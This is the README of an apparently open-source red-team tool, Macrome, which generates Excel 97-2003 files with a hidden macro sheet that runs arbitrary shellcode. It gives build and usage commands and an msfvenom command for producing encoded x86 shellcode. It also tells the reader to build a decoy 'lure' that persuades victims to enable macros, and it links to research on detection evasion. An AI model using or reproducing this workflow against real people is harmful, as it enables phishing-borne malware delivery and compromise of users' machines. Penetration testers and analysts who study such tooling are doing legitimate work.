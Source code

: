 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts.

![An example created document using the default template.](Docs/macrome.png)

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll --decoy-document decoy_document.xls --payload popcalc.bin
~~~

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. 
~~~
Macrome:
  Generate an Excel Document with a hidden macro sheet that will execute code described by the payload argument.

Usage:
  Macrome [options]

Options:
  --decoy-document <decoy-document>          File path to the base Excel 2003 sheet that should be visible to users.
  --payload <payload>                        Either binary shellcode or a newline separated list of Excel Macros to execute
  --payload-type <Macro|Shellcode>           Specify if the payload is binary shellcode or a macro list. Defaults to Shellcode
  --macro-sheet-name <macro-sheet-name>      The name that should be used for the macro sheet. Defaults to Sheet2
  --output-sheet-name <output-sheet-name>    The output filename used for the generated document. Defaults to output.xls
  --debug-mode                               Set this to true to make the program wait for a debugger to attach. Defaults to false
  --version                                  Show version information
  -?, -h, --help                             Show help and usage information
~~~

## Binary Payload Usage
First generate a base "decoy" Excel document that will contain content users should see. This should be some sort of lure that convinces users to click the "Enable Macros" button displayed in Excel. There's some examples of the "latest and greatest" lure creation at https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-. Once this sheet is created, save the document as type `Excel 97-2003 Workbook (*.xls)` rather than the newer `Excel Workbook (*.xlsx)` format. An example decoy document is included in `/Docs/decoy_document.xls`.

Next, generate a shellcode payload to provide to the tool. The example binary payload (which pops calc) was generated using `msfvenom` using the following parameters:

~~~
 msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
~~~

Note that using a majority alpha-numeric payload will reduce the size of the macro file generated since it's easier to express letters and numbers in macro form instead of appending `CHAR` function invocations repeatedly like `=CHAR(123)&CHAR(124)&CHAR(125)...` etc. But the tool should be able to handle a completely unprintable binary payload as well.

Currently this will only work with `x86` payloads, but `x64` support is coming soon, along with support for loading .NET binaries.

## Macro Payload Usage
Technically possible, but there's more work to do on this both implementation and documentation side.

# Acknowledgements 
Big thanks to all the shoulders that I was able to stand on in order to write this.

* https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ - The Outflank team created this attack, I'm just automating some of the tedious parts.
* The folks at InQuest for their excellent write-ups on what malware authors are doing to evade detection right now.
  * https://inquest.net/blog/2019/01/29/Carving-Sneaky-XLM-Files
  * https://inquest.net/blog/2020/03/18/Getting-Sneakier-Hidden-Sheets-Data-Connections-and-XLM-Macros
  * https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-
* [@DissectMalware](https://twitter.com/DissectMalware/) for their killer [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) tool which has been awesome to test against and is just a really great piece of tech if you're on the defense/analyst side.
* The original authors of the `b2xtranslator` library as well as the folks at EvolutionJobs who updated it and ported it to dotnet. The code used here was initially sourced from https://github.com/EvolutionJobs/b2xtranslator.
